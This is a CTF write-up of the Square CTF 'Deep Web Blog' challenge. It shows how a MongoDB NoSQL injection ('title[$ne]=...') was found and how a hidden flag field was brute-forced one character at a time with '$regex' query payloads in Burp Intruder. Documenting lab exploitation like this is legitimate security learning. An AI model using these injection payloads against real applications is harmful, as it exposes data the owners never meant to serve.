

# Square CTF

My solution for the Deep Web Blog challenge from Square CTF: https://squarectf.com/.

## Investigating the Target
---
Browsing to the challenge site shows the following blog:


The site doesn't offer any functinality other than a search bar. A little trial and error showed that the search feature only works if you search by exact match on the title. No fuzzy searching here. 

Inspecting the network requests, we can see the following API being used:

To show all blog posts:

`GET /api/posts`

```json
[
    {
        "_id":"5faff099307b240008a4365a",
        "title":"Blockchain for dummies",
        "content":"Collaboratively administrate..."
    },
    {
        "_id":"5faff099307b240008a4365b",
        "title":"How to get free bitcoins",
        "content":"Bring to the table..."
    },
    {
        "_id":"5faff099307b240008a4365c",
        "title":"My Favorite Tool: cipsum.com",
        "content":"Leverage agile frameworks..."
    },
    {
        "_id":"5faff099307b240008a4365d",
        "title":"manifesto",
        "content":"Another one got caught today..."
    },
    {
        "_id":"5faff099307b240008a4365e",
        "title":"test",
        "content":"It works!"
    }
]
```

The API can also be provided a parameter to find a post by exact match. For example:

`GET /api/posts?title=test`

```json
[
    {
        "_id":"5faff099307b240008a4365e",
        "title":"test",
        "content":"It works!"
    }
]
```

I also dug a bit into the frontend code. This section of `App.js` used for displaying the blog posts caught my eye:
```js
this.state.projects.map(project =>
    <div class="post">
      <Project animate header={project.title} >
        {anim => (
          <div>
            <Words animate show={anim.entered}>
              { project.content }
            </Words>
            {
              project.flag && <Words animate layer='alert'>{project.flag}</Words>
            }
          </div>
        )}
      </Project>
    </div>
)
```
My takeaway here is that the post objects we are seeing have a `flag` attribute in the database, even though it isn't showing in the API response.

## Finding a Method of Attack
---

A natural next step is to use SQL injection to try and retrieve more information from the API. I tried going through some SQLi payloads before concluding it was a dead end.

Something unusual about the API response is that the id field is named `_id` instead of `id`. This is a convention I've seen used in MongoDB, and it is possible that the database is not SQL at all!

We can test this theory by querying the posts API with a NoSQL injection attack.

`GET /api/posts?title[$ne]=fakepost`

Response:
```json
[
    {
        "_id":"5faff099307b240008a4365a",
        "title":"Blockchain for dummies",
        "content":"Collaboratively administrate..."
    },
    {
        "_id":"5faff099307b240008a4365b",
        "title":"How to get free bitcoins",
        "content":"Bring to the table..."
    },
    {
        "_id":"5faff099307b240008a4365c",
        "title":"My Favorite Tool: cipsum.com",
        "content":"Leverage agile frameworks..."
    },
    {
        "_id":"5faff099307b240008a4365d",
        "title":"manifesto",
        "content":"Another one got caught today..."
    },
    {
        "_id":"5faff099307b240008a4365e",
        "title":"test",
        "content":"It works!"
    }
]
```
Woah, all the records were returned! Looks like there is no SQL injection here, but there is a NoSQL injection 😎👍.

But why did this work? We can assume that on the backend, our request is being processed something like this:
```js
db.collection.find({ 
    "title": req.query.title
 });
```

Our payload gets expanded to:
```js
db.collection.find({ 
    "title": { "&ne": "fakepost" }
 });
```

Running this will return all records that have a title `not equal` to `fakepost`. 

Ok, nice, we have something we can work with. 

## The Exploit
---
Recall that there is a `flag` property of these objects. We could use the regex selector to try and determine what the flag is, character by character.

We know from the CTF [rules](https://squarectf.com/2020/rules.html) that the flag will be of this format:

    Flag format

	You know you have successfully solved a puzzle if you find a string which matches the following regular expression:/flag\{.*\}/i.
	For instance, flag{27fbe50bf1ccdaf5cfc9a1} would be a valid flags.

Let's start with a sanity check. We would expect all results to be returned by the following:

```GET /api/posts?flag[$regex]=.*```

We get a custom response back instead though:
```json
[
    {
        "_id":"5faff099307b240008a4365f",
        "title":"flag",
        "content":"Looking for a flag? You won't find it here. Maybe this can help: https://www.youtube.com/watch?v=Jbix9y8iV38",
        "flag":"[REDACTED] Flag format detected - redacted by WAF"
    }
]
```
They're onto us. I thought the video would be a hint, but it turns out it was just the CTF creator having a bit of a laugh.

At first I thought we'd have to evade the WAF, but it turns out we don't need to. Querying for a regex that doesn't match the flag pattern returns an empty list result. We can now find the full flag by bruteforcing the characters one at a time. This can be done pretty easily with the Intruder or TurboIntruder in Burp Suite.



i.e. (`§§` is substituted with every character in `[a-zA-Z0-9]`):

```GET /api/posts?flag[$regex]=flag{§§.*}```
- Returns the redacted flag response for only character 'n'

```GET /api/posts?flag[$regex]=flag{n§§.*}```
- Returns the redacted flag response for only character '0'

```GET /api/posts?flag[$regex]=flag{n0§§.*}```

...

```GET /api/posts?flag[$regex]=flag{n0SQLn0Vulns§§.*}```

And we have captured the flag! `flag{n0SQLn0Vulns}`
